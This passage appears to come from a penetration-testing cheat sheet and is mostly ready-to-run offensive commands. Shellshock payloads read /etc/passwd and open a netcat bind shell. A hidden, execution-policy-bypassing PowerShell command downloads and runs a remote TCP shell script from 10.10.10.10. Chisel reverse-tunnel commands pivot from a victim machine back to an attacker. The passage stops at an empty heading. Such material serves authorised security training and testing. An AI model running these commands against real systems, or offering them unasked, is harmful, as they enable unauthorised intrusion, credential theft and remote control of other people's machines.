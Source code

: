- Shellshock

  - Testing for shell shock with NMap
    - `root@kali:~/Documents# nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/admin.cgi $ip`
  - git clone <https://github.com/nccgroup/shocker>
    - `./shocker.py -H TARGET --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose`
  - Shell Shock SSH Forced Command; Check for forced command by enabling all debug output with ssh  

    ```shell
    ssh -vvv  
    ssh -i noob noob@$ip '() { :;}; /bin/bash'
    ```

  - cat file (view file contents)  
    `echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {:;}; echo \\$(</etc/passwd)\\r\\nHost:vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80`
  - Shell Shock run bind shell  
    `echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {:;}; /usr/bin/nc -l -p 9999 -e /bin/sh\\r\\nHost:vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80`

### Execute a remote shell dropper

- Often, you can leverage PowerShell to execute a remotely hosted powershell script which contains a shell dropper (generated by the platform of your choosing).
  - `CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -WindowStyle hidden -NonInteractive -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/Invoke-PowerShellTcp.ps1'))"`
- There are also some no-so-well documented PowerShell argument shortcuts so can use things like -w rather than -WindowsStyle (handy for smaller payloads):
  - `CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -w hidden -noni -nop -i None -ex Bypass -c "iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/Invoke-PowerShellTcp.ps1'))"`

### Creating a fast TCP/UDP tunnel transported over HTTP secured via SSH with CHISEL

- Download the appropriate OS binaries from the release folder of the chisel [on here](https://github.com/jpillora/chisel): `mv ~/Downloads/chisel_1.7.6_windows_amd64.gz .`
- Unzip the files with gunzip:
  - `gunzip -d chisel_1.7.6_windows_amd64.gz` & then make it executable `mv chisel_1.7.6_windows_amd64 chisel.exe`
  - `gunzip -d chisel_1.7.6_linux_amd64.gz` & then make it executable by `mv chisel_1.7.6_linux_amd64 chisel` & `chmod +x chisel`
- Then on the attacker machine run the chisel server:
  `./chisel server --reverse --port 9002`
- Send the client one to the host/victim machine via curl/curtutil/ftp/netcat or whatever mechanism you have and then execute the following. Have that in mind below maps port 3306 to localhost in reverse and also we mapped the second one 8888 just in case.
  `.\chisel.exe client 10.10.14.23:9002 R:3306:localhost:3306 R:8888:localhost:8888`

### Upgrading your Windows Shell

